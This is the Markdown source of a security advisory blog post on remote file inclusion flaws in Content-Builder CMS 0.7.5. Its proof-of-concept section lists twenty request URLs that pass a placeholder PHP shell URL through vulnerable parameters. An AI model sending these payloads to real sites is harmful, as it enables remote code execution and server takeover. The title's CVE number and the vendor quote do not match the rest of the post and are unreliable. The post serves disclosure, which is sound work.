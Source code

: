 ```yaml
---
layout: post
title:  "CVE-2006-3019 – Content-Builder CMS 0.7.5 - Remote Command Execution"
date:   2006-06-11 00:00:00
categories: security cve
permalink: post/CVE-2006-3172-content-builder-cms-remote-command-execution/
---
```


### Vendor

[http://www.content-builder.de/][contentbuildercms]

[contentbuildercms]:	http://www.content-builder.de/	"Content-Builder CMS"

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

### Description

Multiple PHP remote file inclusion vulnerabilities in `Content Builder 0.7.5` allow remote attackers to execute arbitrary PHP code via a URL with a trailing slash (/) character in the

1. lang_path parameter to
*	(a) cms/plugins/col_man/column.inc.php,
*	(b) cms/plugins/poll/poll.inc.php,
*	(c) cms/plugins/user_managment/usrPortrait.inc.php,
*	(d) cms/plugins/user_managment/user.inc.php,
*	(e) cms/plugins/media_manager/media.inc.php,
*	(f) cms/plugins/events/permanent.eventMonth.inc.php,
*	(g) cms/plugins/events/events.inc.php,
*	(h) cms/plugins/newsletter2/newsletter.inc.php;
2. path[cb] paramter to
*	(i) modules/guestbook/guestbook.inc.php,
*	(j) modules/shoutbox/shoutBox.php,
*	(k) modules/sitemap/sitemap.inc.php; and the
3. rel parameter to
*	(l) modules/download/overview.inc.php,
*	(m) modules/download/detailView.inc.php,
*	(n) modules/article/fullarticle.inc.php,
*	(o) modules/article/comments.inc.php,
*	(p) modules/article2/overview.inc.php,
*	(q) modules/article2/fullarticle.inc.php,
*	(r) modules/article2/comments.inc.php,
*	(s) modules/headline/headlineBox.php,
*	(t) modules/headline/showHeadline.inc.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

http://example/[cb_path]/cms/plugins/col_man/column.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/poll/poll.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/usrPortrait.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/user.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/media_manager/media.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/permanent.eventMonth.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/events.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/newsletter2/newsletter.inc.php?lang_path=
**~**/
http://example/[cb_path]/modules/guestbook/guestbook.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/shoutbox/shoutBox.php?path[cb]=
**~**/
http://example/[cb_path]/modules/download/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/download/detailView.inc.php?rel=
**~**/
http://example/[cb_path]/modules/sitemap/sitemap.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/article/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/headline/headlineBox.php?rel=
**~**/
http://example/[cb_path]/modules/headline/showHeadline.inc.php?rel=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172][mitre]
* [http://www.securityfocus.com/bid/18404][securityfocus]
* [http://www.osvdb.org/26344][osvdb]
* [http://secunia.com/advisories/20557][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172 "CVE 2006-3172"
[securityfocus]:	http://www.securityfocus.com/bid/18404						"SecurityFocus-18404"
[osvdb]:			http://www.osvdb.org/26344									"OSVDB-26344"
[secunia]:			http://secunia.com/advisories/20557							"Secunia-20557"